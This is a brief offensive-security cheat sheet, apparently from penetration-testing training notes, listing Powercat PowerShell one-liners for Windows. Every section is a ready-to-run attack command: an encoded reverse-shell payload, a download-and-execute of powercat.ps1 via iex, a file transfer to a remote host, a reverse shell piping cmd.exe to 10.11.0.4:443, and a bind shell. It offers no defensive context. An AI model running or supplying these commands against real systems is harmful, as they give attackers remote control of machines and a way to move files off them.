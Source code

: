 #windows #reverseShells 


#### Powercat encrypted payloads

```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```




#### Download and Load Powercat

```Powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```


#### file Transfer

```powershell
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1 ## sends the file powercat,ps1
```


#### Reverse Shell

```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```


#### Bind Shell

```powershell
powercat -l -p 443 -e cmd.exe
```
